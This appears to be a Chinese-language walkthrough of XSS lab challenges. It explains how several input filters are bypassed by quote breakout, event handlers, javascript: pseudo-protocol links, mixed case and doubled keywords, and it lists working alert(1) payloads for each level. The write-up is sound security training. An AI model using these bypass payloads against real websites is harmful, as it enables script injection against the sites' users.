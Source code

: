 ![截屏2021-06-15 上午12.14.33.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623687285290-32c1f9cf-6fac-497a-b5c0-c4ad96b7581a.png#align=left&display=inline&height=1662&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8A%E5%8D%8812.14.33.png&originHeight=1662&originWidth=2604&size=730277&status=done&style=none&width=2604)<br />本题直接将<和>转义了，彻底不能使用<>，且闭合value要用单引号 '<br />输入<br />  **' onmouseover=alert(1) '**<br />**![截屏2021-06-15 上午12.17.56.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623687503044-698faf0d-b35c-45bb-a921-2a98a9bda086.png#align=left&display=inline&height=1662&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8A%E5%8D%8812.17.56.png&originHeight=1662&originWidth=2604&size=740636&status=done&style=none&width=2604)**<br />后台源码<br />![截屏2021-06-15 上午12.19.39.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623687598230-319519e8-9ec3-40a4-b3ee-7024dc5cba9e.png#align=left&display=inline&height=1402&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8A%E5%8D%8812.19.39.png&originHeight=1402&originWidth=1924&size=303865&status=done&style=none&width=1924)<br />与第二关的区别是多了一句<br />value='".htmlspecialchars($str)."'<br />所以我们要将其构造成<br /><input name="keyword" value='"' onmouseover="alert(1)'"'><br />这也是为什么要用单引号 ' 闭合的原因
## str_replace替换< 和 >（事件绕过）
![截屏2021-06-15 下午5.22.00.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623749029746-69f2cd79-afd5-4730-84ec-3fc6d82c1521.png#align=left&display=inline&height=1662&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8B%E5%8D%885.22.00.png&originHeight=1662&originWidth=2604&size=647462&status=done&style=none&width=2604)<br />与上一关没有多大的区别，将单引号闭合换成双引号闭合就好<br />输入<br />**" onfocus=alert(1) autofocus="**<br />或者<br />**" onclick=alert(1) //**<br />后台源码<br />![截屏2021-06-15 下午5.28.31.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623749323867-3e6c9986-0474-4607-8952-f4b201c4109f.png#align=left&display=inline&height=1410&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8B%E5%8D%885.28.31.png&originHeight=1410&originWidth=1924&size=320546&status=done&style=none&width=1924)<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623749358321-5ba27b7a-5a5a-44d9-aeec-0f344b76be36.png#align=left&display=inline&height=968&margin=%5Bobject%20Object%5D&name=image.png&originHeight=968&originWidth=1396&size=173433&status=done&style=none&width=1396)<br />所以要在没有符号“<>”的情况下，并且语句不被htmlspecialchars()函数影响的情况下构建payload
## 构造伪协议
![截屏2021-06-15 下午5.32.42.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623749618551-b23791dc-1f95-4559-a667-29a98cffcfec.png#align=left&display=inline&height=1662&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8B%E5%8D%885.32.42.png&originHeight=1662&originWidth=2604&size=621917&status=done&style=none&width=2604)<br />本关payload<br />**"><iframe src=javascript:alert(1)>**<br />**"><a href=javascript:alert(1)> **<br />**"> <a href="javascript:alert(1)">aaa</a>**<br />**"> <a href="javascript:%61lert(1)">aaa</a> //**<br />**"> <a href="javascript:alert()">aaa</a> <"**<br />后台源码<br />![截屏2021-06-15 下午5.36.49.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623749820552-fc9aa92f-99c1-4d70-b801-a05ded06a960.png#align=left&display=inline&height=1414&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8B%E5%8D%885.36.49.png&originHeight=1414&originWidth=1924&size=329699&status=done&style=none&width=1924)<br />分析代码发现，str_replace 就直接把<br />script 转换成 scr_ipt<br />on转换成 o_n<br />这样就过滤了js事件<br />且str_tolower函数使得大小写绕过失效<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623749904951-10d75be6-1a57-4205-b83a-37da6c310c68.png#align=left&display=inline&height=892&margin=%5Bobject%20Object%5D&name=image.png&originHeight=892&originWidth=1390&size=84726&status=done&style=none&width=1390)<br />所以本题需要构造伪协议
## 大小写绕过
![截屏2021-06-15 下午9.19.13.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623763182584-ead08137-c003-45f0-9e73-239dd99ed099.png#align=left&display=inline&height=1662&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8B%E5%8D%889.19.13.png&originHeight=1662&originWidth=2604&size=781054&status=done&style=none&width=2604)<br />本关使用大小写绕过<br />payload<br />**"> <Script>alert(1)</script> //**<br />**"> <img Src=x OnError=alert(1)> //**<br />**"><a HrEf="javascript:alert(1)">zhouzhong</a>//**<br />**" OncliCk=alert(1) //**<br />后台源码<br />![截屏2021-06-15 下午9.22.48.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623763380525-639c1c2d-61cd-4508-bdfd-6f91c86f68ce.png#align=left&display=inline&height=1446&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8B%E5%8D%889.22.48.png&originHeight=1446&originWidth=1616&size=341006&status=done&style=none&width=1616)<br />script 转换成 scr_ipt<br />on 转换成 o_n<br />src 转换成 sr_c<br />data 转换成 da_ta<br />href 转换成 hr_ef<br />然而唯独大小写绕过没有被禁止
## 双写绕过
![截屏2021-06-15 下午9.26.17.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623763627677-8ae16ef2-4d57-43ac-a4cb-3bc4a5057210.png#align=left&display=inline&height=1662&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8B%E5%8D%889.26.17.png&originHeight=1662&originWidth=2604&size=660289&status=done&style=none&width=2604)<br />双写绕过<br />payload<br />**"><sscriptcript>alert(1)</sscriptcript>**<br />**">hello<sscriptcript>alert(1)</sscriptcript>**<br />**" oonnmouseover=alert(1)**<br />**"><a hrhrefef=javascriscriptpt:alert(1)>zhouzhong</a>**<br />后台源码<br />![截屏2021-06-15 下午9.30.16.png](https://cdn.nlark.com/yuque/0/2021/png/2424924/1623763831773-e003cc42-d531-41d3-812e-57c884084f67.png#align=left&display=inline&height=1446&margin=%5Bobject%20Object%5D&name=%E6%88%AA%E5%B1%8F2021-06-15%20%E4%B8%8B%E5%8D%889.30.16.png&originHeight=1446&originWidth=1920&size=347408&status=done&style=none&width=1920)<br />禁用大小写<br />且script，on，src ，data ，href 都直接转换成空<br />所以要使用双写绕过
## HTML编码绕过